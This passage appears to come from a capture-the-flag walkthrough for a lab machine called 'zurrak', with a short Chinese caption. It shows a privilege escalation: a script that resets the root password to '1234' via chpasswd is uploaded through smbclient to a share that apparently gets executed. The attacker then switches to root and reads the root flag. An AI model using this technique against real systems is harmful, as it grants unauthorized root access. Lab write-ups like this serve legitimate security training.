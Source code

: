 ```bash
cd \home\postgres\: NT_STATUS_OBJECT_PATH_NOT_FOUND
smb: \> lcd /home/postgres
smb: \> ls
  .                                   D        0  Fri Oct 20 19:02:55 2023
  ..                                  D        0  Fri Oct 20 16:36:51 2023

                9232860 blocks of size 1024. 6040656 blocks available
smb: \> ^C
(remote) postgres@zurrak:/opt/internal$ cd /home/postgres/
(remote) postgres@zurrak:/home/postgres$ ls -la
total 20
drwxr-xr-x 3 postgres postgres 4096 Apr  7 05:31 .
drwxr-xr-x 3 root     root     4096 Oct 20 19:06 ..
-rw------- 1 postgres postgres   28 Oct 24 16:47 emergency.sh
drwx------ 3 postgres postgres 4096 Apr  7 05:31 .gnupg
-rw-r--r-- 1 postgres postgres   33 Oct 20 20:23 user.txt
(remote) postgres@zurrak:/home/postgres$ cat emergency.sh 
echo "root:1234" | chpasswd
(remote) postgres@zurrak:/home/postgres$ smbclient //127.0.0.1/internal -U 'emre'
Password for [ZURRAK.HMV\emre]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\127.0.0.1\internal\
smb: \> lcd /home/postgres/
smb: \> lpwd
lpwd: command not found
smb: \> pwd
Current directory is \\127.0.0.1\internal\
smb: \> put emergency.sh
putting file emergency.sh as \emergency.sh (0.4 kb/s) (average 0.4 kb/s)
smb: \> ^C
```

等待执行，然后切换用户：

```bash
(remote) postgres@zurrak:/home/postgres$ su root
Password: # 1234
root@zurrak:/home/postgres# cd /root
root@zurrak:~# ls -la
total 24
drwx------  4 root root 4096 Nov 14 04:12 .
drwxr-xr-x 18 root root 4096 Oct 20 15:22 ..
-rw-------  1 root root    0 Nov 14 04:12 .bash_history
lrwxrwxrwx  1 root root    9 Nov 14 04:12 bash_history -> /dev/null
-rw-------  1 root root   20 Oct 24 13:56 .lesshst
drwxr-xr-x  3 root root 4096 Nov 14 04:59 .local
-rw-r--r--  1 root root   33 Oct 20 20:23 root.txt
drwx------  2 root root 4096 Oct 20 15:21 .ssh
root@zurrak:~# cat root.txt 
66fce7650a88ac2afd99d061e1c6a4df
```
